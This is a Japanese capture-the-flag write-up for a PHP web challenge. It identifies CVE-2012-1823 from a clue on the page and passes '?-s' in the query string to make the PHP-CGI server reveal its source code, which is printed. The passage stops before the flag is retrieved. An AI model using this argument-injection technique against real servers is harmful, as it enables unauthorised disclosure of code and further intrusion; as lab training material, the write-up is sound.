


## 問題

与えらえたURLにアクセスすると、時刻のようなものが表示される。



## 解法

リロードすると、値が変わる。



`2012:1823`で検索すると、`CVE-2012-1823`というPHPの脆弱性がヒットする。

`curl`でレスポンスヘッダーを見ると、確かにPHPが使われているようだ。

```bash
$ curl https://ctfq.u1tramarine.blue/q12/ -i
HTTP/2 200 
server: nginx
date: Tue, 19 Sep 2023 12:16:42 GMT
content-type: text/html
x-powered-by: PHP/5.4.1
```

PHPのコマンドラインオプションは、[PHP: オプション - Manual](https://www.php.net/manual/ja/features.commandline.options.php)から、
調べることが、できる。

URLに`?-s`オプションをつけて、`https://ctfq.u1tramarine.blue/q12/?-s`にアクセスしてみると、
ソースコードが開示された。

```php
<?php

    //  Flag is in this directory.

    date_default_timezone_set('UTC');
    
    $t = '2012:1823:20:';
    $t .= date('y:m:d:H:i:s');
    for($i=0;$i<4;$i++)
        $t .= sprintf(':%02d',mt_rand(0,59));
?>
<!DOCTYPE html>
<html>
  <head>
    <meta charset="utf-8">
    <title>Clock</title>
    <style>
      body
      {
        background: black;
      }
      p
      {
        color: red;
        font-size: xx-large;
        font-weight: bold;
        text-align: center;
        margin-top: 200px;
      }
    </style>
  </head>
  <body>
    <p><?php echo $t; ?></p>
  </body>
</html>
```

どうやら、このソースコードがあるディレクトリにFLAGがある様子。